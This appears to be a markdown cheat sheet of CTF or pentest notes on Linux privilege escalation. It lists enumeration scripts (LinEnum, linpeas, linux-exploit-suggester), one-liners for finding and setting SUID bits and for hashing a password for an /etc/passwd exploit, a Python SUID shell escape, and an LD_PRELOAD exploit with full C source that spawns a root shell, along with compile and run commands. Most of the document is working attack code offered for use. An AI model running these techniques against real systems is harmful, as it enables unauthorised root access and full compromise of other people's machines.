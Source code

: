 # Becoming root

To escalate privileges you need to find vulnerabilities in the target system.
Find this with any of these scripts:

- `sudo -l`
- [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
- [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
- [linux-exploit-suggester](https://raw.githubusercontent.com/knarkzel/linux-exploit-suggester/master/linux-exploit-suggester.sh)

## Useful one liners

```bash
chmod u+s <FILE> # set SUID-bit
find / -type f -perm -04000 -ls 2>/dev/null # find SUID binaries
openssl passwd -1 -salt THM <PASSWORD> # hash password for /etc/passwd exploit
```

## Python binary

If you found a `python` binary with SUID, run following to become root:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## LD_PRELOAD

You can abuse LD_PRELOAD to become root if you can execute a binary
with SUID-bit and `gcc` is installed.

Open file and paste malicous C-code:

```bash
cd /tmp
nano shell.c
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Compile it as dynamic library and set `<BINARY>` to an executable with SUID:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=$PWD/shell.so <BINARY>
```

For more details, see [Dynamic linker tricks: Using LD_PRELOAD to cheat, inject features and investigate programs](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)